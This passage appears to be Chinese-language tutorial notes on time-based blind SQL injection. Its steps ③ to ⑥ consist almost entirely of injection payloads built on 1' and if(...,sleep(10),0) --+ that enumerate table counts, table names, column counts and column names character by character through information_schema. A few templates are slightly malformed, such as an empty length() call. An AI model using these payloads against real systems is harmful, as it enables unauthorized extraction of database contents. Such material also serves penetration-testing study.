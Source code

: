 ###### ③获取表名长度

```
1' and if(exp1,sleep(10),0) --+
exp1= length((select count(table_name)from information_schema.tables where table_schema=database() limit 0,1))
综上：
1' and if(length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=m,sleep(10),0) --+		//m为表名长度
```

```
//获取表的个数
1' and if(exp1,sleep(10),0) --+
exp1= select count(*) from information_schema.tables where table_schema=database())=m
综上:
1' and if((select count(*) from information_schema.tables where table_schema=database())=4,sleep(10),0) --+	//m为表的个数
```

###### ④获取表名

```
1' and if(exp1,sleep(10),0) --+
exp1= ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),n,1))=m
综上：
1' and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),n,1))=m,sleep(10),0) --+			//n为表名的第几个位置，m为ascii范围[65,122]
```

###### ⑤获取字段长度

```
1' and if(length(),sleep(10),0) --+
exp1= length((select column_name from information_schema.columns where table_schema=database() and table_name='表名' limit 0,1))=m
综上：
1' and if(length((select column_name from information_schema.columns where table_schema=database() and table_name='表名' limit 0,1))=2,sleep(10),0) --+		//m为字段名长度 

//获取字段个数
1' and if((select count(*) from information_schema.columns where table_schema=database() and table_name='表名')=m,sleep(10),0) --+	//m为表的个数
```

###### ⑥获取字段名

```
1' and if(exp1,sleep(10),0) --+
exp1= ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='表名' limit 0,1),n,1))=m
综上：
1' and if(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='表名' limit 0,1),n,1))=m,sleep(10),0) --+		//n为字段名的位置，m为ascii范围[65,122]
```
